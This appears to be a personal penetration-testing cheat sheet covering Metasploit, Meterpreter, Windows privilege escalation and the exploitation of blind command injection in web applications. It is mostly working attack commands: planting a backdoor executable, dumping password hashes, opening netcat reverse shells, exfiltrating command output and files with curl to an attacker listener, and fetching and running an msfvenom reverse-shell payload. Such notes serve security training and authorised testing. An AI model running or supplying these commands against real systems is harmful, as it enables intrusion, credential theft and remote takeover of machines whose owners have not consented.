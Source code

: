 #Metasploit notes
1. use exploit > show payloads > set payload > show options > exploit

Keep it updated: `msfupdate`
`service postgresql start`
`service metasploit start`

Example:

`msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpreter/reverse_tcp`

(meterpreter is a payload)

#Meterpreter

msf> search meterpreter
msf exploit(explmod) > set payload windows/meterpreter/reverse_tcp

- Bind and Reverse

 - bind_tcp runs server process on target machine that waits for connections from the attacker machine.
 - reverse_tcp performs TCP connection back to attacker. (backdoor to evade firewalls)

- Sessions
 - to run multiple meterpreter sessions (multiple shells) on the target.
 - to resume a background session use the sessions -i 1 command
`sysinfo`
`getuid`
 - bypass user account control `bypassuac` in windows
after > `getuid`
#hashdump 
`msf> use post/windows/gather/hashdump`

`meterpreter > upload /root/backdoor.exe C:\\Windows`

#standard shell 

#go back to session with (resume background session)
`sessions -i 1`
#after shell
`sysinfo`
#list currently opened sessions 
`sessions -l`
#Priv Esc
`getsystem`
#modern Windows (getsystem not gonna work)
use bypassuac module.
> show options > set session 1
#RCE Vuln

#Beyond RCE 
- for blind RCE:
- delay requests and observe application response
`GET /script.php?c=sleep+3&ok=ok HTTP/1.1`
Start Wireshark to intercept ping requests. Filter for ICMP. 
In Burp- attempt to ping within vulnerable parameter:
`GET /script.php?c=ping 192.168.139.130 -c &ok=ok HTTP/1.1`
 - use burp URL-encode key characters
#Attempt to upload tools to remote webapp:
echo $PATH (to get executable locations)
which nc
which python
which curl
which wget
#If netcat is installed on remote machine
- In linux /var/www/html/server nc -lvp 53
- On web page search: nc <remote host IP> -e /bin/bash
#If curl is installed on remote machine
- In linux `nc -lvp 53`
- On webpage `curl http://<remote host IP>:53`
- If it works- on webpage: `curl http://<remote host IP>:53/`whoami`
- Try to get id onn webpage: `curl http://<remote host IP>:53/`id | base64`
  - Decode on linux: `echo "djdshfhhs" | base64 -d`
#Using curl to transfer files:
- In linux `nc -lvp 53`
- On webpage `curl http://192.168.139.130:53/file -T /etc/issue`
- Transfer file to remote system:
  - Navigate to `/var/www/html/server` 
  - `python -m SimpleHTTPServer 9090`
  - Create reverse shell payload using msfvenom
    - `msfvenom -p linux/x64/shell_reverse_tcp lhost=<local IP> lport=53 -f elf -o reverse53`
    - Download file into remote system
    - `python -m SimpleHTTPServer 9090`
    - In browser search `curl http://<remote host IP>:9090/reverse53 -o /tmp/r`
    - If shell successfully downloaded: `chmod +x /tmp/r` in browser
    - In browser: `curl http://<remote host IP>:9090 -T /tmp/r` to check if the reverse shell file is there.
    - Last step: RUN IT. In linux `nc -lvp 53`
	- In browser search `/tmp/r`
        - should grant reverse shell
    - Upgrade shell with either `bash -i` or use python to spawn a TTY Shell `python -c 'import pty; pty.spawn("/bin/sh")'`


